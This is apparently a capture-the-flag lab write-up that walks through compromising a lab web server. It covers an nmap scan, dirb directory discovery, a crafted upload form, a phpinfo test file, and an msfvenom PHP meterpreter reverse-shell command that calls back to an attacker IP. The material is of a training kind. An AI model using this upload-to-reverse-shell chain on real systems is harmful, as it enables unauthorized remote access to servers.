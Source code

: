 # 172.16.64.91
```
Nmap scan report for 172.16.64.91
Host is up (0.090s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Going to the url found in /etc/hosts of the .92 machine will give us a 404
![404.png](404.png) but running dirb will show us a `/app` directory
![dirb.png](dirb.png)

which tells us to login

![app_login.png](app_login.png)

Now, this one took me a bit to find the right path but viewing the source, we see the form post request is going to `upload/upload.php` but the file itself is in `app/upload.php` when inspected in burpsuite. 
![upload.php.png](upload.php.png)

If we take this source code local to our machine, we can try to upload a file as a test using the website URL as our form target. 

### Local form
```
<html>
<body>
    <form action="http://75ajvxi36vchsv584es1.foocorp.io/app/upload.php" method="post" enctype="multipart/form-data">
        <br/>
        <br/>
        <input type="file" name="fileToUpload" id="fileToUpload">
        <br/>
        <br/>
        <input type="submit" value="Upload" name="submit">
    </form>
</body>
</html>
```

### test.php
```
<?php
phpinfo();
?>
```

Uploading this and then visiting the URL `http://75ajvxi36vchsv584es1.foocorp.io/app/upload/test.php` gives us the PHP Info page. At this point we confirmed file upload abuse so we can generate a shell with `msfvenom` and get a meterpreter session started.

### Shell  
`msfvenom -p php/meterpreter_reverse_tcp lhost=172.16.64.12 lport=443 -o shell.php`

Once uploaded and we have a meterpreter session listening, we go to `http://75ajvxi36vchsv584es1.foocorp.io/app/upload/shell.php` and see a session start in meterpreter. Enter shell to get into bash and running `ls -la` shows us the flag is inthe `/var/www/html` directory. 

![final.png](final.png)